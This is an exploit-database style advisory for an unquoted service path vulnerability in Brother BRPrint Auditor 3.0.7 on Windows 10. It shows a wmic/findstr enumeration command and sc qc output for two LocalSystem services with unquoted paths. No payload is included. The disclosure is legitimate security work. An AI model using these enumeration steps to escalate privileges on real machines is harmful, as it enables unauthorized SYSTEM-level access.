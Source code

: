     # Exploit Title: Brother BRPrint Auditor 3.0.7 - 'Multiple' Unquoted Service Path
    # Discovery by: Brian Rodriguez
    # Date: 14-06-2021
    # Vendor Homepage: https://support.brother.com/
    # Software Links: https://support.brother.com/g/b/downloadhowto.aspx?c=us&lang=en&prod=dcp7060d_all&os=10013&dlid=dlf102753_000&flang=4&type3=214
    # Tested Version: 3.0.7
    # Vulnerability Type: Unquoted Service Path
    # Tested on: Windows 10 Enterprise

    # Step to discover Unquoted Service Path:

    C:\>wmic service get name,displayname,pathname,startmode |findstr /i "auto"
    |findstr /i /v "c:\windows\\" |findstr /i /v """
    BrPrAuSvc     BrAuSvc      C:\Program Files
    (x86)\Brother\BRPrintAuditor\Brsvau3a.exe       Auto

    Brother BRPrintAuditor Agent     BRPA_Agent   C:\Program Files
    (x86)\Brother\BRPrintAuditor\BRAgtSrv.exe    Auto

    C:\Users\IEUser>sc qc BrAuSvc
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: BrAuSvc
            TIPO               : 10  WIN32_OWN_PROCESS
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files
    (x86)\Brother\BRPrintAuditor\Brsvau3a.exe
            GRUPO_ORDEN_CARGA  : BrotherSplGroup
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : BrPrAuSvc
            DEPENDENCIAS       : Spooler
            NOMBRE_INICIO_SERVICIO: LocalSystem

    C:\Users\IEUser>sc qc BRPA_Agent
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: BRPA_Agent
            TIPO               : 10  WIN32_OWN_PROCESS
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files
    (x86)\Brother\BRPrintAuditor\BRAgtSrv.exe
            GRUPO_ORDEN_CARGA  :
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : Brother BRPrintAuditor Agent
            DEPENDENCIAS       :
            NOMBRE_INICIO_SERVICIO: LocalSystem